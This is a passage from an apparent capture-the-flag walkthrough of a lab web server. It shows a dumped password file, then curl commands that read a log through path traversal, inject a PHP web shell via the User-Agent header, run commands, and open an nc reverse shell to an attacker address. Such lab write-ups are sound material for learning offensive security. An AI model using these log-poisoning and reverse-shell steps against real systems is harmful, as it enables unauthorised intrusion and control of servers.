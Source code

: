 **Output:**
```
root:*:0:0:Charlie &:/root:/bin/csh
daemon:*:1:1:Owner of many system processes:/root:/sbin/nologin
operator:*:2:5:System &:/:/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/sbin/nologin
games:*:7:13:Games pseudo-user:/:/sbin/nologin
news:*:8:8:News Subsystem:/:/sbin/nologin
man:*:9:9:Mansystem &:/usr/share/man:/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

### Step 5: Log Poisoning
Use log poisoning to gain remote code execution.

**Command/Code:**
```bash
curl "http://10.10.10.84/browse.php?file=../../../var/log/httpd-access.log"
```

### Step 6: PHP Code Injection
Inject PHP code into the access log.

**Command/Code:**
```bash
curl -A "<?php system(\$_GET['cmd']); ?>" "http://10.10.10.84/"
```

### Step 7: Command Execution
Execute commands through the LFI vulnerability.

**Command/Code:**
```bash
curl "http://10.10.10.84/browse.php?file=../../../var/log/httpd-access.log&cmd=id"
```

**Output:**
```
uid=80(www) gid=80(www) groups=80(www)
```

### Step 8: Reverse Shell
Set up a reverse shell.

**Command/Code:**
```bash
curl "http://10.10.10.84/browse.php?file=../../../var/log/httpd-access.log&cmd=nc -e /bin/sh 10.10.14.2 4444"
```
